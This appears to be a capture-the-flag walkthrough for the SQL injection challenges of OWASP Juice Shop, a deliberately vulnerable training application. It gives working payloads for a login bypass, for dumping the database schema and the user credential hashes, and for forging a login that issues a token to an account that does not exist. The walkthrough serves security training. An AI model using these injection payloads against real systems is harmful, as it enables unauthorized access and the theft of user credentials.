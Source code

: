 ## SQL Injection

### Log in with the administrator's user account
1.  Use the SQL Injection payload `' or 1=1--` as the email and any password. This will authenticate you as the first user in the database, which is the administrator.
2.  Alternatively, if you know the administrator's email, you can use `admin@juice-sh.op'--` as the email and any password.

---

### Exfiltrate the entire DB schema definition via SQL Injection
1.  The `/rest/products/search` endpoint is vulnerable to SQL Injection in the `q` parameter.
2.  Use a `UNION SELECT` statement to merge data from the `sqlite_master` table, which contains the database schema in SQLite.
3.  After determining the correct number of columns (9), the payload `qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--` will return the schema.

---

### Retrieve a list of all user credentials via SQL Injection
1.  Using the same vulnerable endpoint (`/rest/products/search`), craft a `UNION SELECT` payload to retrieve data from the `Users` table.
2.  The payload `qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` will return a list of all users' IDs, emails, and password hashes.

---

### Order the Christmas special offer of 2014
1.  Use blind SQL Injection on the `/rest/products/search` endpoint with the `q` parameter. The payload `'))--` will retrieve all products, including logically deleted ones.
2.  Take note of the ID of the "Christmas Super-Surprise-Box (2014 Edition)" (which should be 10).
3.  Add this product to your basket by sending a POST request to `/api/BasketItems` with `{"BasketId": "<Your Basket ID>", "ProductId": 10, "quantity": 1}`.
4.  Checkout to solve the challenge.

---

### Log in with the (non-existing) accountant without ever registering that user
1.  This is an advanced SQL Injection that creates a user "on the fly" during the login process.
2.  You need to know the exact column names of the `Users` table (from the schema exfiltration challenge).
3.  Craft a `UNION SELECT` payload for the email field that will return a user with the `accounting` role, for example: `' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', ...)`.
4.  This tricks the backend into issuing a valid JWT for this non-existent user.

---

